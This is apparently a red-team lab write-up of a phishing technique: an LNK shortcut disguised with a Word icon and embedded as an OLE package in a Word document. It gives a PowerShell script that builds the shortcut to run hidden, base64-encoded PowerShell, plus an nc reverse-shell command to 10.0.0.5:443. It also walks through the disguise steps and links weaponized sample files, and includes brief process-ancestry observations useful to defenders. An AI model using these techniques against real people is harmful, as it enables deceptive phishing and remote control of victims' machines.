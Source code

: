 ```yaml
---
description: 'Phishing, Initial Access'
---
```


# Phishing: OLE + LNK

This lab explores a popular phishing technique where attackers embed .lnk files and camouflage them with Ms Word office icon in .doc files to deceive victims to click the embedded file. Once clicked, the embedded file executes the malicious payload.

## Weaponization

Creating an .LNK file that will trigger the payload once executed:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
$command = 'Start-Process c:\shell.cmd'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

$obj = New-object -comobject wscript.shell
$link = $obj.createshortcut("c:\experiments\ole+lnk\Invoice-FinTech-0900541.lnk")
$link.windowstyle = "7"
$link.targetpath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
$link.iconlocation = "C:\Program Files\Windows NT\Accessories\wordpad.exe"
$link.arguments = "-Nop -sta -noni -w hidden -encodedCommand UwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAGMAOgBcAHMAaABlAGwAbAAuAGMAbQBkAA=="
$link.save()
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Powershell payload will trigger a rudimentary NC reverse shell:

{% code-tabs %}
{% code-tabs-item title="c:\\shell.cmd" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Once the above powershell script is executed, an `.LNK` shortcut is created:

![](../.gitbook/assets/ole-lnk-shortcut-created.png)

Let's create a Word document that will contain the malicious shortcut that was created in the previous step:

![](../.gitbook/assets/ole-good-document.png)

Let's insert a new object into the document by selecting a `Package`and changing its icon source to a Microsoft Word executable:

![](../.gitbook/assets/ole-insert-ole-object-with-icon.png)

![](../.gitbook/assets/ole-change-icon.png)

Point the package to the .lnk file containing the payload:

![](../.gitbook/assets/ole-payload.png)

Final result:

![](../.gitbook/assets/ole-weaponized.png)

## Execution

Victim executing the embedded document. Gets presented with a popup to confirm execution:

![](../.gitbook/assets/ole-execution.png)

Confirms execution - note how the reverse shell came back to the attacker:

![](../.gitbook/assets/ole-execution2.png)

## Observations

After the payload is triggered, the process ancestry looks as expected - powershell gets spawned by winword, cmd is spawned by powershell, etc.:

![](../.gitbook/assets/ole-ancestry1.png)

Soon after, the powershell gets killed and cmd.exe becomes an orphan:

![](../.gitbook/assets/ole-ancestry2.png)

{% file src="../.gitbook/assets/ole.ps1" caption="OLE+LNK Powershell Script" %}

{% file src="../.gitbook/assets/invoice-fintech-0900541.lnk" caption="Invoice-FinTech-0900541.lnk" %}

{% file src="../.gitbook/assets/completely-not-a-scam-ole+lnk.docx" caption="Phishing: OLE+Lnk MS Word Doc Package" %}

[https://adsecurity.org/wp-content/uploads/2016/09/DerbyCon6-2016-AttackingEvilCorp-Anatomy-of-a-Corporate-Hack-Presented.pdf](https://adsecurity.org/wp-content/uploads/2016/09/DerbyCon6-2016-AttackingEvilCorp-Anatomy-of-a-Corporate-Hack-Presented.pdf)

